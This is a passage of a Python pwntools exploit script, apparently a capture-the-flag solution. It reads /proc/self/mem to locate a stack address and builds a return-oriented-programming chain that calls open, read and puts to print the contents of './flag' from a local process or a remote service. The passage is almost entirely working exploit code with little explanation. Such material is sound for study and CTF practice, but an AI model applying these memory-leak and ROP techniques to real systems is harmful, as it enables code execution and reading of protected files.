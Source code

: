 ```python
		if '/proc/self/mem' in text:
			content = text.split('/proc/self/mem')[0]
			break
		if i == 23:
			li('not found')
			exit(0)


	v8_addr = stack_begin_offset + i * 100000 + len(content) - 0x14
	li('v8_addr: ' + hex(v8_addr))

	read_ret = v8_addr - (0x60 - 0x08) + 0x20
	li('read_ret: ' + hex(read_ret))
	p = '/proc/self/mem'.ljust(24, '\x00') + p64(read_ret)
	fid(p) # fd as 5

	#rop
	'''
	3 RDX  0x28 #length
	1 RDI  0x0  #fd
	2 RSI  0x7fd5ffbc3640 ◂— '/proc/self/mem' #buffer
	'''

	ret = read_ret
	#open  ./flag
	p = p64(pop_rdi_ret) + p64(ret + 15 * 8)
	p += p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(open_plt)

	# read flag to buffer, fd is 6
	p += p64(pop_rdi_ret) + p64(6)
	p += p64(pop_rsi_r15_ret) + p64(ret + 15 * 8) + p64(0) + p64(read_plt)

	# puts flag
	p += p64(pop_rdi_ret) + p64(ret + 15 * 8) + p64(puts_plt)
	# ./flag str will be replace flag{***}
	#p = p64(pop_rdi_ret) + p64()
	p += './flag\x00'
	#db()
	
	giv(p)


def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
```